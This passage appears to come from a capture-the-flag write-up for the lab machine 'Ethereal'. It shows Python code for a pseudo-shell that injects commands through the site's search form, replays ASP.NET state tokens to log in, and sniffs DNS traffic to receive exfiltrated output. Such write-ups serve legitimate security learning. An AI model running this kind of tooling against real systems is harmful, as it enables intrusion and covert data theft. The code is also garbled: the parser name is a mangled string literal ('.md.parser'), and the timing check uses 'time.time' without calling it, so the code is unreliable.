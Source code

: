 

     64     def send_post(self, search):
     65         data = {'__VIEWSTATE': self.view_state,
     66                 '__VIEWSTATEGENERATOR': self.view_state_gen,
     67                 '__EVENTVALIDATION': self.event_val,
     68                 'search': search,
     69                 'ctl02': ''}
     70         try:
     71             start = time.time()
     72             resp = requests.post('http://ethereal.htb:8080/',
     73                              proxies=self.proxy,
     74                              data = data,
     75                              auth = self.auth,
     76                              timeout=120)
     77             if resp.status_code == 500 and time.time - start < 30:
     78                 print("[-] Unable to connect to Ethereal\n[*] Running login")
     79                 self.do_login()
     80                 print("[*] Try running the command again.")
     81         except requests.exceptions.Timeout:
     82             pass



`do_login` looks like:



     54     def do_login(self, args=''):
     55         print("[*] Logging in and fetching state information.")
     56         resp = requests.get('http://ethereal.htb:8080/', auth=self.auth, proxies=self.proxy)
     57         soup = BeautifulSoup(resp.text, .md.parser')
     58         self.view_state = soup.find("input", id="__VIEWSTATE").get('value')
     59         self.view_state_gen = soup.find("input", id="__VIEWSTATEGENERATOR").get('value')
     60         self.event_val = soup.find("input", id="__EVENTVALIDATION").get('value')
     61         print("[+] State information received.")



### Clean Exit

Right now, when I want to exit the shell, I have to ctrl-c twice, to
kill the terminal and the DNS thread. And it dies with exceptions all
over the screen.

There's not a really clean way that I know of to kill a thread like this
from somewhere else in the code. But I came up with a kludge.

The command running in the DNS thread is:



    sniff(iface=self.interface, filter=f"src host {self.target_ip} and udp port 53",prn=self.parse_packet)



`sniff` actually has a parameter you can pass it, `stop_filter`. It is a
function that is passed each packet, and, if it returns True, will stop
`sniff`. So I'll add one that if I get a query for a pre-defined domain,
I'll exit:
